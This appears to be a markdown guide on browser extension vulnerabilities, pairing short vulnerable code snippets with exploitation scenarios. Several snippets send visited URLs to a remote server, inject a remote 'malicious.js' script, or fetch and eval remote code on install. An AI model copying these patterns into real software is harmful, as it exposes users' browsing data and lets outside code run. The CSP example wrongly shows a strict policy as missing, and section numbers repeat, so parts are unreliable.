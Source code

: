 # Browser Extension Security Vulnerabilities

This document outlines common security vulnerabilities found in browser extensions and provides examples of how attackers can exploit these vulnerabilities.

## 1. Permissions Overreach
**Vulnerable Code Example:**
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
```

**Exploitation Scenario:**

An extension with broad permissions can access all tabs and browsing data. If the extension is compromised, an attacker can capture sensitive information from any website the user visits, including passwords and personal data.

## 2. Data Leakage

**Vulnerable Code Example:**

```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
```
This code can leak user URLs to a remote server.

**Exploitation Scenario:**

An extension sending the URLs of all visited pages to a remote server can inadvertently leak sensitive information, especially if users visit banking or personal sites.

## 3. Cross-Site Scripting (XSS)

**Vulnerable Code Example:**

```javascript
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization
```
**Exploitation Scenario:**

User inputs can execute scripts in the page's context. An attacker could inject scripts that steal cookies, session tokens, or sensitive data.

## 4. Insecure Communication

**Vulnerable Code Example:**
```javascript
fetch('http://example.com/api/data')
```
**Exploitation Scenario:**

Data sent over insecure HTTP can be intercepted by attackers on the same network, allowing them to capture sensitive information, such as tokens or personal data.

## 4. Code Injection

**Vulnerable Code Example:**
```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);
```
**Exploitation Scenario:**

If an attacker controls the script URL, they can inject malicious code into the page, leading to data theft or manipulation of the page’s functionality.

## 6. Malicious Updates

**Vulnerable Code Example:**

```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Potentially unsafe
});

```
**Exploitation Scenario:**

If the update mechanism is compromised, attackers can push malicious code to users without their knowledge, potentially gaining control over their browsers.


## 7. Third-Party Dependencies

**Vulnerable Code Example:**

```javascript
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}

```
**Exploitation Scenario:**

An extension relying on outdated third-party libraries may become vulnerable if those libraries have known security flaws that attackers can exploit.

## 8. Lack of Content Security Policy (CSP)

**Vulnerable Code Example:**

```javascript

{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}

```

**Exploitation Scenario:**

Without a strong CSP, attackers can inject untrusted content, increasing the risk of XSS and other attacks that manipulate the extension’s behavior.

## 9. Insecure Storage

**Vulnerable Code Example:**

```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption
```
**Exploitation Scenario:**

If an attacker gains access to the local storage, they can easily retrieve sensitive information, such as tokens or user credentials, leading to unauthorized access.

## 10. Insufficient Privacy Controls

**Vulnerable Code Example:**

```javascript
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}

```
**Exploitation Scenario:**

Users may be unaware of how their data is being collected or used, leading to potential abuse of their information without consent or awareness.
